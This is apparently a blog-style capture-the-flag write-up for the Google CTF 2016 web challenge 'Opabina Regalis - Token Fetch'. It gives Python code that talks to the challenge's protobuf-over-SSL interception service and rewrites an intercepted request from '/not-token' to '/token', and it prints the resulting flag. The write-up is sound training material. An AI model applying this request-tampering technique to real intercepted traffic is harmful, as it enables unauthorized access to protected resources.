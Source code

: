 ```yaml
---
layout: post
title: "Google CTF 2016 : Opabina Regalis - Token Fetch"
date: 2016-05-01 15:25:06 -0700
comments: true
author: aaron
slug: opabina-regalis-token-fetch
category:
- 2016
- googlectf
---
```

**Category:** Web
**Points:** 50
**Solves:** 79
**Description:**


>
>There are a variety of client side machines that have access to certain websites we'd like to access. We have a system in place, called "Opabina Regalis" where we can intercept and modify HTTP requests on the fly. Can you implement some attacks to gain access to those websites?
>
>Opabina Regalis makes use of [Protocol Buffers](https://developers.google.com/protocol-buffers/) to send a short snippet of the HTTP request for modification.
>
>Here's the protocol buffer definition used:
>
>
>     package main;
>
>     message Exchange {
>
>        enum VerbType {
>                GET = 0;
>                POST = 1;
>        }
>
>        message Header {
>                required string key = 1;
>                required string value = 2;
>        }
>
>        message Request {
>                required VerbType ver = 1; // GET
>                required string uri = 2; // /blah
>                repeated Header headers = 3; // Accept-Encoding: blah
>                optional bytes body = 4;
>        }
>
>        message Reply {
>                required int32 status = 1; // 200 or 302
>                repeated Header headers = 2;
>                optional bytes body = 3;
>        }
>
>        oneof type {
>                Request request = 1;
>                Reply reply = 2;
>        }
>     }
>

>The network protocol uses a 32-bit little endian integer representing the length of the marshalled protocol buffer, followed by the marshalled protocol buffer.
>
>Listening on port 1876 on ssl-added-and-removed-here.ctfcompetition.com
>



# Research
In order to solve this problem, I had to learn a little bit about Protocol buffer.  I started by reading the documentation that was linked in the challenge description.  It looks like Google supports a few different languages, so I decided to go with Python.  But first I had to install the protocol buffer compiler (protoc).


# Protocol Buffer Compiler Setup
Download the protocol buffer project

```
$ git clone https://github.com/google/protobuf.git
```


Compile and install (from [Google's Git Documentaion](https://github.com/google/protobuf/tree/master/src))

```
$ cd ./protobuf/
$ ./autogen.sh
$ ./configure
$ make
$ make check
$ sudo make install
$ sudo ldconfig # refresh shared library cache.
```

Google has provided the contents of our message file in the challenge description, simply save it as main.proto.

Now that the protocol buffer compiler has been installed and we have our main.proto file created, it is time to run the compiler.

```
$ protoc -I=./ --python_out=./ main.proto
```

Wow, I am finally ready to start writing code.  I can create an empty Exchange message protocol buffer with the following snippet:

```python
import main_pb2
msg = main_pb2.Exchange()
```

# Client Code
Once I verified that I could import main_pb2, I setup the TCP/SSL socket as such:

```python
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((TCP_IP, TCP_PORT))
ws = ssl.wrap_socket(s, ssl_version=ssl.PROTOCOL_SSLv23)
```

This is the code I wrote for reading from the socket, careful to obey the requirement for 32bit little-endian integers.

```python
def rx_msg(sock):
  data = sock.recv(4)
  
  #Unpack the message length
  msg_len = struct.unpack('<I', data)[0]
  data = sock.recv(msg_len)
  
  #Read the protocol buffer message
  msg = main_pb2.Exchange()
  msg.ParseFromString(data)
```

And the code for writing to the socket.

```python
def tx_msg(sock, msg):
  data = msg.SerializeToString()
  p = struct.pack('<I', len(data)) + data
  sock.send(p)
```

And add some simple code to print the request so that I can easily see what is happening.

```python
def print_req(req):
  print('VerbType: ' + repr(req.ver))
  print('URI: ' + repr(req.uri))
  print('Headers:')
  for i in req.headers:
  	print(repr(i))
  print('Body: ' + repr(req.body))
```

# Exploit
I should be all set, let's connect to the socket and see if I get a request.

```
VerbType: 0
URI: u'/not-token'
Headers:
key: "User-Agent"
value: "opabina-regalis.go"
```

Hmm...  Looks like someone is trying to connect to '/not-token'.  What if I create a new request for '/token' instead.

```python
new_dat = main_pb2.Exchange()
new_dat.request.ver = main_pb2.Exchange.GET
new_dat.request.uri = u'/token'
new_dat.request.body = ''
tx_msg(ws, new_dat)
```

Now let's see what the whole script output looks like.

```
VerbType: 0
URI: u'/not-token'
Headers:
key: "User-Agent"
value: "opabina-regalis.go"

Body: ''
Status: 200
Headers:
key: "Server"
value: "opabina-regalis.go"

Body: 'CTF{WhyDidTheTomatoBlush...ItSawTheSaladDressing}'
```

[Click here for entire Python implementation](https://github.com/b0tchsec/CTF-Fanny-Pack/blob/master/solutions/google_2016/OpabinaRegalis_TokenFetch/client.py)
